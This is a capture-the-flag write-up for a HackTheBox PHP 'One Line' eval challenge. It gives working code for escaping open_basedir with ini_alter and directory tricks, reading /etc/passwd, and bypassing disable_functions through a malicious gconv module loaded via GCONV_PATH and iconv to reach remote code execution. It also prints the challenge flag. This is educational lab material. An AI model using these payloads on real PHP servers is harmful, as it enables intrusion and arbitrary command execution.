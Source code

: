 
# One Line php challenge

## Description

Just some not so regular disable_functions / open_basedir PHPfu.
http://docker.hackthebox.eu:31103/

## Writeup

![Source code](img/source.png)

There is nothing much to tell about the source, it simply takes your input and
print it using eval, and there is no filter at all.

The challenge seems pretty easy, We probably have to find where the flag file is stored and read it.
Of course, the first thing we tried is `'';system('ls');`


![system disabled](img/1.png)

Sure, it wasn't going to be that easy, right ?

Let's run `phpinfo()` and check all disabled functions:

![disabled functions](img/2.png)

We can see all the needed functions to get an RCE are disabled.

Open_basedir is also enabled, and we can check that by trying to read `/etc/passwd` for example.

```
http://docker.hackthebox.eu:31103/?%F0%9F%8D%BC='';file_get_contents('/etc/passwd');
```

![open basedir](img/3.png)

We have only access to `/www` and `/tmp`.

This challenge won't be so easy after all.
Let's break it down into two parts, first we bypass `open_basedir` then `disable_functions`

### Part 1: Bypassing Open_basedir

First thing we did was trying to find built-in functions that doesn't check for open_basedir paths.

With the experience we had in CTFs, we remembered that we can list files and directories using the `DirectoryIterator` class, and using the `glob://` schema we can actually bypass `open_basedir` easily

```php
$it = new DirectoryIterator("glob:///*");
foreach($it as $f) { echo "{$f}<br/>"; }
```

![directory iterator](img/4.png)

And here is the file we need `readflag`
But there is no end to this trick, we can only list files, but we can't actually read them.

Also, we don't know if `readflag` is a simple text file or a binary. It's probably a binary that needs to be executed to read the flag (hence the need to bypass `disable_functions`)

So in the end, we need to properly bypass open_basedir.

There is a well known trick to do it, by playing with subdirectories and changing some config values with `ini_set` we can easily bypass it.

The classical way to do it is with this code:

```php
chdir('/tmp');
mkdir('sub');
chdir('sub');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
print_r(scandir('/'));
```

It's easy to understand, first we `cd` to folder that we have access to, in this case `/tmp` or even `/www` is fine.

We create a sub folder named `sub` and we `cd` into it.
we change the `open_basedir` value to `..`, now what happens is that php checks if the new value is allowed based on the old value, in this case it is allowed because we are inside `sub` and it's parrent directory is `/tmp` so obviously it's allowed.

Now we can access everything one directory level above our current directory, so we just traverse the tree upwards to list all files;

and then to be able to list all files no matter where we are in the tree, we `cd` into `/` by going upwards and then change `open_basedir` to `/`.

Now this code won't work for a reason, `ini_set` is disabled. But no worries we can just change it to `ini_alter` and it works perfectly fine.
So the final code is:

```
chdir('/tmp'); mkdir('sub'); chdir('sub'); ini_alter('open_basedir','..');
chdir('..'); chdir('..'); ini_alter('open_basedir','/');
print_r(scandir('/'));
```

![bypass open_basedir](img/5.png)

We successfully bypassed `open_basedir`. We can confirm that `readflag` is a binary, by trying to read it:

```php
chdir('/tmp'); mkdir('sub'); chdir('sub'); ini_alter('open_basedir','..');
chdir('..'); chdir('..'); ini_alter('open_basedir','/');
readfile('/readflag');
```

![reading /readflag](img/6.png)

we can see it's an ELF.
So now we have to find a way to execute it and get the flag

### Part 2: Bypassing disable_functions

This was the hardest part, we took a really long time to solve it.

First we tried so many stuff, nothing worked, we read write-ups and googled about all possible ways to bypass `disable_functions`, they all talk about bypassing it using `php imagick` and `php-fpm` and some exploits for specific versions of PHP. But imagick and fpm weren't installed and for this version (7.4.8) we found nothing.

Then we decided to start over, let's have another look at the list of disabled functions:

![disabled functions](img/2.png)

As we can see, the last 3 functions are `ini_set, mail, error_log`, i wondered why in this exact order ?

And then i thought:

`We bypassed open_basedir by changing ini_set to ini_alter. And all known ways to bypass disable_functions uses mail() and error_log() functions. So logically we need to use the same way with a slight modification, maybe using another function instead of those`

We stick to the basic, the exploit of mail() uses LD_PRELOAD to load a custom .so module that will hook one of the functions that mail() call internally, and inside it we can execute any command we want with system().

So all we needed to do is find all php functions that used LD_PRELOAD.
We found the following functions:
`mb_send_mail`
`imap_mail`
`imap_open`
`libvirt_connect`
`gnupg_init`

But unfortunately all of them were undefined :(
We almost lost hope, until i noticed something weird.
In `phpinfo()` i noticed that php was compiled with this additional parameter: ` --with-iconv`

![with iconv](img/7.png)

This is weird because i already read about about an exploit that uses `iconv`. Googling it i found this [gist](https://gist.github.com/LoadLow/90b60bd5535d6c3927bb24d5f9955b80)

In a nutshell, `iconv()` is a php function that let you convert string from a specifc charset to another charset. it looks innocent but actually it uses a `GCONV_PATH` which is an environment variable for changing the configuration of the translation mechanism. And this variable can act almost the same way as `LD_PRELOAD`, so we can actually exploit it.

To do so we will need to upload 2 files:

`gconv-modules` containing:

```
module  PAYLOAD//    INTERNAL    ../../../../../../../../tmp/payload    2
module  INTERNAL    PAYLOAD//    ../../../../../../../../tmp/payload    2
```

and `payload.so` which is the compiled library, we will compile this code:

```c
#include <stdio.h>
#include <stdlib.h>

void gconv() {}

void gconv_init() {
  system("cat /readflag > /tmp/flag.txt");
  exit(0);
}
```

Compile it with:

```bash
gcc payload.c -o payload.so -shared -fPIC
```

Because of the length limit in URIs, we wrote a python script to split files to small chunks and upload them.

After uploading both files to `/tmp` we trigger the exploit by executing this php code:

```php
'';putenv("GCONV_PATH=/tmp"); iconv("payload", "UTF-8", "whatever");
```

But unfortunately it didn't work either :(

After many trials and errors, my teammate decided to deploy the challenge on a vps (since they gave us the source), and check the logs, and he found the issue:

![exit gconv](img/8.png)

Apparently, we did get an RCE, `/tmp/flag.txt` was created, but somehow when gconv exits, the whole server stops, it kills php process.

So the solution was just to remove `exit(0)` from the code.

We rerun the code and we get a `flag.txt` file in `/www`:

![flag list tmp](img/9.png)

Let's read the flag:

![read flag.txt](img/10.png)

Screenshot from our automatic solver script:

![solver script](img/11.png)

#### Flag:

```
HTB{iconv_r34lly_b3_d01ng_us_lik3_th4t}
```